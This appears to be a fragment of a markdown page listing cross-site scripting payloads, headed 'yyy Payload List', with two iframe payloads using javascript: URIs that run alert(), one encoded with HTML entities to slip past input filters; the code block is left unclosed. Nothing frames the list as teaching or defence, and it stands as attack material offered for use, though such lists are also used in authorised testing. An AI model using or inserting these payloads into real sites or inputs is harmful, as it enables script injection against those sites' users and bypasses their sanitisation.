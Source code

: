 #### yyy Payload List :

```

<IFRAME SRC="javascript:alert('1');"></IFRAME>
<iframe src=javascript&colon;alert&lpar;document&period;domain&rpar;>
